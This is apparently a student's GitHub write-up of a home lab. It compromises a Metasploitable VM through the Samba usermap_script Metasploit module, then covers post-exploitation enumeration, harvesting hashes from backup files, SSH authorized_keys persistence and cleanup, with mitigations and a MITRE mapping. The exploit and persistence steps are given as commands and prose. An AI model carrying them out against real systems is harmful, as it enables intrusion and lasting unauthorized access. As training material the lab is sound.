# Metapsloit-Operator-Lab-Project-6-

## Overview
This project demonstrates an End-to-end attack chain leveraging a vulnerable Samba service, followed by Metasploit-based post-exploitation including credential discovery, network enumeration, privilege-escalation assessment, SSH persistence, data extraction, and cleanup.

## Objective
The objective of this project was to simulate realistic red team and penetration testing methodologies by gaining an initial foothold on a vulnerable target, performing post-exploitation to extract high value information, analyzing privilege escalation opportunities, establishing persistence to enable re-entry, and demonstrating responsible cleanup tehcniques.The focus was on attacker decision making, tradecraft, and manual exploitation instead of using a means of automation such as linpeas.

## Environment & Architecture
• For this project I used both my kali and metasploitble vm's on a NAT Network isolated from the internet creating a safe and ethical environment. 
• Kali = Attacker
• Target = Metapsloitable

## Tools Used
• nmap
• metasploit

## Attack Path / Methodology
• I ran an nmap scan against the target and discovered that the the OS was metasploitable, known for having a large attack surface as there are many msiconfigurations exposed services. 



• To gain a foothold onto the target machine I chose samba because I know that samba has a lot of known exploits, with one being exploit/multi/samba/usermap_script as the target is succeptible to, for the samba version 3.0.20

• The exploit only required me to fill in the RHOSTS(Metasploitable-IP) and my LHOST(Kali-IP). This exploit resulted in immediate access as the root user due to a severe misconfiguration and vulnerable samba version, it didn't require me to any methods of privilege escalation, so I stabilized the shell for better functionality.




## Initial Access 
• Service identified: Samba (port 139/445)
• Version: Samba 3.0.20
• Vulnerability: usermap_script command execution
• Exploit used: exploit/multi/samba/usermap_script
• Access level obtained: root

## Findings
• Since I became root after getting a shell, I had searched for the .bak files and I had access to them, Bak files are backup copies of important documents. The contents of .bak files consisted of usernames and hashes, creating another means of re-entry. 




• The known_hosts file stores SSH host fingerprints for systems that the target machine has previously connected to. In a real world scenario this would aid lateral movement by mapping out the next potential targets that the target system already trusts


• The /etc/resolv.conf file was reviewed to identify DNS configuration details and only contained an ip. 

• The etc/network/interfaces file usually contains useful networking information such as network interfaces, static ip's, gateways, and subnets. In this case it contained the loopback and primary network interfaces which are essential for post exploitation allowing attackers to interact with internal services including databases, api's,or managemnet interfaces.



## Post Exploitation Activities
• After initial compromise I performed post compromise internal to identify additional services that are not visible from an external standpoint.

• The purpose of running commands such as ip a, ip route, arp -a, netstat -tulpn, ss -tulpn and ip a was to gain more insight on the internal environment including active interfaces, routing paths, neighboring hosts, and services that re listening locally. 

• In a real penetration test, this step is critical because systems usually expose internal only services, management interfaces or trust relationships that cannot be discovered from external recon. Repeating this workflow helps develops muscle memory and mirrors post exploitation techniques within professional engagements. 




## Persistence & Re-Entry
• After achieving full administrative access, I created a persistence mechanism to demonstrate how an attacker could maintain access between sessions. I added a controlled ssh key to the targets authroized_keys file, allowing me to ssh in as the root user without the need of a password



Note: Although the ssh persistence technique was implemented correctly, old legacy SSH configuration and key compatibility issues on Metasploitable prevented successful re-entry. The technique itself would work and is valid in a real world scenario.

## Cleanup & Restoration
• After completing this project,everything that was introuduced during testing was removed to restore system to itss original state. This included termininating the meterpreter session and removing the previously added ssh public key, which was used solely to simulate persistence techniques in a controlled environment. 


## Risk & Impact
• Full root compromise grants total system control to attackers
• Credential exposure grants lateral movement
• Establishment of persistence allows long-term access
• Internal enumeration exposes trust relationships allowing you to see what wasn't visible externally

## Commands Used
Nmap:
- nmap -sC -A -p- <metasploitable3-ip>

Metasploit:
- use exploit/multi/samba/usermap_script
- set RHOSTS <metasploitable3-ip>
- set LHOST <attacker>
- exploit

  ## Mitigation Recommendations
• Upgrade or remove vulnerable Samba versions
• Restrict SMB access, one way would be creating firewall rules
• Audit and remove sensitive backup files
• Look for SSH key additions
  
## Lessons Learned / Conclusion
• Gained experience with post-exploitation persistence concepts, including using an ssh keys to maintain controlled re-entry to a compromised system
• Improved familiarity with metasploit workflows, including managing sessions, post exploitation modules, and 
• Practiced data extraction techniques from compromised hosts, highlighting how attackers and red teamers extract files for offline analysis 

## Mitre Mapping
Reconnaissance (T1046) – Network Service Discovery
 Initial Access (T1190) – Exploit Public-Facing Application 
 Execution (T1059) – Command and Scripting Interpreter 
 Privilege Escalation  (T1068) – Exploitation for Privilege Escalation 
 Discovery (T1082) – System Information Discovery 
 Discovery  (T1018) – Remote System Discovery 
 Discovery  (T1046) – Network Service Discovery 
 Credential Access  (T1552) – Unsecured Credentials 
 Persistence  (T1098.004) – SSH Authorized Keys 
Defense Evasion  (T1070) – Indicator Removal on Host 

